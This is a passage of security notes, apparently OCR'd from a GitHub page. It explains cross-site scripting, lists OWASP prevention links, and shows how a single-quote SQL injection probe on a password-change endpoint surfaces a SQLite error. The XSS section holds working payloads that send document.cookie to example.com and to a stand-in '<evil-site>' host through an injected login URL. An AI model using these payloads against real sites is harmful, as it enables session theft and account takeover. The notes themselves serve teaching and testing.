 
```html

<script>alert("howdy")</script>
<script>document.location='http://www.example.com/pag.pl?'%20+document.cookie</script>

<!--
This will just redirect the page to an unknown and malicious page after logging into the original page from where the request was made

http://example.com/login.php?variable="><script>document.location='http://<evil-site>/cont.php?'+document.cookie</script>
-->
```


- [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
- [OWASP Guide to Data Validation](https://www.owasp.org/index.php/Data_Validation)
- [Testing for DOM-based Cross site scripting (OTG-CLIENT-001)](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
- [Testing for Stored Cross site scripting (OTG-INPVAL-002)](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
- [Testing for Reflected Cross site scripting (OTG-INPVAL-001)](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))

**SQL Inyections**
> A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))

```
--- The expected ---
Client:
    URL – Typically this would be something like http://www.example.com/rest/user/change_password
    POST data – {“email”:”xyz@example.com”, “oldpassword”:”oldpassword”, “newpassword”:”newpassword”}

Server:
    Password changed successfully.
```

```
--- SQL Injection Detection ---
Client:
    URL – Typically this would be something like http://www.example.com/rest/user/change_password
    POST data – {“email”:”xyz@example.com‘“,”oldpassword”:”oldpassword”, “newpassword”:”newpassword”}

Important:
    Qualys WAS tests if the web application is vulnerable to SQL injection attack 
    by appending the email parameter with SQL injection payload of a single quote (‘), 
    which results in the following data in the POST request:

Server:
    {"error":{"message":"SQLITE_ERROR: unrecognized token: 
    \"d5b5fffc89f961903fb3c9a173f1b667\"","stack":"Error: SQLITE_ERROR: 
    unrecognized token: \"d5b5fffc89f961903fb3c9a173f1b667\"\n at 
    Error (native)","errno":1,"code":"SQLITE_ERROR","sql":"UPDATE 
    Users set password = '5e9d11a14ad1c8dd77e98ef9b53fd1ba' WHERE 
```